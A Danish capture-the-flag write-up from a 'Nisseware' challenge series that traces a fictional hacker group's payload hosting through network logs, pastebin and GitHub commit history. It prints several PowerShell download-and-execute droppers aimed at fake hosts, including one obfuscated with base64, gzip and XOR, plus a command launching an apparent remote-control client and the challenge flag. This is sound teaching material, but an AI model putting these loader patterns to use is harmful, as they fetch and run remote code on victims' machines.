

# Writeup

Opgaveteksten beder os om at vurdere, hvor selve payloadet i angrebet er hentet fra, og om vi kan finde andre payloads.

Har man løst [Nisseware: Phishing](../nisseware-phishing/), har man sandsynligvis fundet det relevante link nu, men opgaven er lavet, så den kan løses separat med et kig på netværkstrafikken.

Åbnes `network_logs.pcapng` ses som noget af det første en stream af HTTP-trafik:



Her ses, at der er lavet et `GET`-request mod http://raw.githubusercontent.com/N1ss3b4nd3n/N1ss3b4nd3n/main/README.md - har man løst phishingopgaven, vil man tydeligt kunne genkende dette som den URL, payloadet hentes ned fra, før det eksekveres. Vi er her heldige, at `N1ss3b4nd3n` er kommet til at bruge `HTTP` og ikke `HTTPS` - dvs. vi kan se den fulde URL og får blot et `301 - Moved Permanently` svar fra `GitHub`, der automatisk redirecter til `HTTPS`-udgaven, hvorefter den fulde sti og indholdet af requests og responses er krypteret.

Tilgår vi linket, ser vi, at det bare er en rå tekstfil, der indeholder linket https://pastebin.com/raw/GdyerNX8, hvor følgende script er hosted:

```ps1
$fileUrl = "http://det.jul.det.cool/not_sus.ps1"
(New-Object System.Net.WebClient).DownloadFile($fileUrl, (Get-Location).Path + "\payload.ps1")
Start-Process (Get-Location).Path + "\payload.ps1"
```

Det virker dog ikke som en helt gyldig URL - men det er et godt spor! Fjerner vi `/raw` fra URLen, kan vi tilgå scriptet direkte på pastebin siden: https://pastebin.com/GdyerNX8.
Her ses at payloadet står som unlisted og er oprettet af brugeren `N1ss3b4nd3n` - det kunne da være interessant at se, hvad de ellers har af bins: https://pastebin.com/u/N1ss3b4nd3n.

Der ligger faktisk kun en enkelt public bin: https://pastebin.com/hQcmjWHL. Den ser dog rigtig interessant ud:

```
Medlemsliste:
HEMMELIGT (chefen)
Lun73
G3mys3
HrM0rt3ns3n
Sk1pp3r
P1l
```

Det virker som et rigtig godt spor at lave OSINT på, og efter denne opgave kan man naturligt fortsætte med [Nisseware: OSINT](../nisseware-osint/).
Men inden da skal vi stadig løse den stillede opgave: At finde deres payloadmekanisme og lede efter andre payloads.

Vi har adgang til en fil fra et `GitHub` repo - måske vi kan tilgå gruppens `GitHub` direkte!
Vi prøver at gå til https://github.com/N1ss3b4nd3n og ser, vi fint kan se deres profil. Der er umiddelbart kun et enkelt synligt repository, nemlig det, der hostede payloadlinket:

https://github.com/N1ss3b4nd3n/N1ss3b4nd3n

Her ser vi dog, der står `10 Commits`, så det virker relevant at tage et kig på!


Vi tjekker ændringen i dem alle og ser, at det er en lang række links, bl.a. flere til pastebin og en række umiddelbart sketchy hostnames:

```
https://pastebin.com/raw/P6cUKLkV
https://pastebin.com/raw/pNeMxgSM
https://pastebin.com/raw/MbP0cAfn
https://pastebin.com/raw/CiZTV3BA
https://danger-site.hacker/mal.ps1
https://pastebin.com/raw/xNkVzDGn
https://nothing-suspicious-here.jul/script.ps1
https://pastebin.com/raw/GXvNcLqw
https://pastebin.com/raw/GdyerNX8
```

Noget tyder altså på, at `N1ss3b4nd3n` hoster deres payloads rundt omkring, bl.a. på pastebin, og opdaterer dette repo, hver gang, de vil pege på et nyt script i stedet, så de på den måde kan holde URLen hardcoded i deres phishingangreb. Så må man selv vurdere, hvor gennemtænkt det er, at anvende et versionsstyringsværktøj med commit history.

De første to pastebin sider er nede igen, så der har gruppen nok fjernet deres payload, eller det kan være blevet flagged og fjernet af pastebin.
De to non-pastebin URLs kan heller ikke tilgås. Det efterlader os med fem scripts, der bør kigges igennem, og vi ser på dem i rækkefølge:

```ps1
$fileUrl = "http://134.34.f4k3.1337/download.exe"
$client = New-Object System.Net.WebClient
$client.DownloadFile($fileUrl, (Get-Location).Path + "\download.exe")
Start-Process (Get-Location).Path + "\download.exe"
```

Det første script downloader tilsyneladende en `exe`-fil fra et malicious site, gemmer det lokalt på maskinen og eksekverer det.
URLen kan dog ikke tilgås, og vi kigger videre på næste script:

```ps1
[Byte[]]$AssemblyBytes = [System.Text.Encoding]::UTF8.GetBytes("H4sIABsdUmUA/y3Oa0uzUAAAYC1ZRRDhC0u87OLqaE6RM8YEx8KgKas+7OZxc14m1lbx6srID8PVXx9Bv+B53q5cFf4zPPIsjRZarXNc5bAi47LVF4tKs11y8L7+4Hxn2tRsHkgLZ+ryCerCpRnOUe17h617aOAdNTJDPO2UBsHhVvj/ecmX7vDbH2V6kz+WJ4HbVKz4dVXY/QpenwOtRcYPhg6ChG6YlWckY6EERVMvD3kJKbWXPOz7vDwWSDWw6QtRCgHeDliSOQFWSl2PRqZbV+iEEMwZSaXRRuhCz/PH0u/qidEjS4VWSrT9iWP0YoaArWrhD1XNlfUNu5xYIKbinEZ/xrZxb5/vASPNHMIDAQAA")

# Base64 decode bytes
$decodedBytes = [System.Convert]::FromBase64String([System.Text.Encoding]::UTF8.GetString($AssemblyBytes))
$stream = New-Object System.IO.MemoryStream(,$decodedBytes)
$gzip = New-Object System.IO.Compression.GzipStream($stream, [System.IO.Compression.CompressionMode]::Decompress)

# Gzip decompress
$buffer = New-Object byte[](1024)
$ms = New-Object System.IO.MemoryStream
while($true) {
    $read = $gzip.Read($buffer, 0, 1024)
    if ($read -le 0) { break }
    $ms.Write($buffer, 0, $read)
}
$script = $ms.ToArray()
$ms.Close()
$gzip.Close()
$stream.Close()

# XOR decode
$key = [System.Text.Encoding]::UTF8.GetBytes("NC3CTF2023")
for ($i = 0; $i -lt $script.Length; $i++) {
    $script[$i] = $script[$i] -bxor $key[$i % $key.Length]
}

# Invoke result as PS script
Invoke-Expression -Command ([System.Text.Encoding]::UTF8.GetString($script))
```

Dette ser noget mere interessant ud! Vi har umiddelbart en base64 encoded streng, der decodes og herefter dekomprimeres med `gzip`.
Resultatet XOR decryptes med nøglen `"NC3CTF2023"` og sidst eksekveres det som en kommando. Vi kan køre de samme commands i PowerShell og igen udskifter `Invoke-Expression` med `Write-Host` for at printe kommandoen i stedet for at eksekvere den. Alternativt kan [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)Gunzip()XOR(%7B'option':'UTF8','string':'NC3CTF2023'%7D,'Standard',false)) anvendes med lidt større sikkerhed. Her skal blot bruges `From Base64`, `Gunzip` og sidst `XOR` med `Key` sat til `NC3CTF2023` i `UTF8` mode. Resultatet bliver uanset metoden:

```ps1
$fileUrl = "http://321.123.f4k3.1337/megetfarligfil.exe&token=NC3{dyn4m1sk_p4yl04d_0pd4t3r1ng}"
$client = New-Object System.Net.WebClient
$client.DownloadFile($fileUrl, (Get-Location).Path + "\download.exe")
Start-Process (Get-Location).Path + "\download.exe"
```

Altså igen et lignende payload, der henter en executable fra en URL og eksekverer den.
Mest interessant er selvfølgelig den URL parameter, der er sat til flaget: `token=NC3{dyn4m1sk_p4yl04d_0pd4t3r1ng}`.

Sådan! Endnu en opgave klaret! Men vi bør lige færdiggøre analysen og kigge de resterende tre scripts igennem:

```ps1
(New-Object System.Net.WebClient).DownloadFile("https://888.0.24.12/script.bat", (Get-Location).Path + "\download.bat")
Invoke-Item (Get-Location).Path + "\download.bat"
```

Script tre er ikke umiddelbart interessant, der hentes og eksekveres en `bat`-fil, fra en utilgængelig URL.
Det allersidste script er det, vi allerede så, da vi først fandt linket i phishingopgaven eller netværkstrafikken, men det næstsidste er nyt:

```ps1
(New-Object System.Net.WebClient).DownloadFile("http://julebal-i-nisseland.jul/client.exe", (Get-Location).Path + "\client.exe")
$path = ((Get-Location).Path + "\client.exe")
$args = "-addr", "n1ss3b4nd3n.jul:8080"
Invoke-Expression "$path $args"
```

Dette script henter filen `client.exe` og eksekverer følgende kommando:

```console
client.exe -addr n1ss3b4nd3n.jul:8080
```

Potentielt mere interessant end de foregående, men vi kan ikke tilgå nogle af de URLs.
Er man lidt opmærksom, vil man dog kunne se i commit history, at dette script var aktivt fra 23. november 12:10 til 28. november 08:18, og fra netværkstrafikken ses at linket blev tilgået 28. november 02:34 - det er altså dette payload, der blev hentet ned på Alfs computer og eksekveret.

Dette er interessant for næste opgave og vil være en stor hjælp til [Nisseware: Exfiltration](../nisseware-exfiltration/).

Vi har altså nu flere spor at gå efter og kan fortsætte i mindst to retninger:

- Pastebin medlemslite: [Nisseware: OSINT](../nisseware-osint/)
- Faktisk eksekveret payload: [Nisseware: Exfiltration](../nisseware-exfiltration/)

**Flag**

`NC3{dyn4m1sk_p4yl04d_0pd4t3r1ng}`
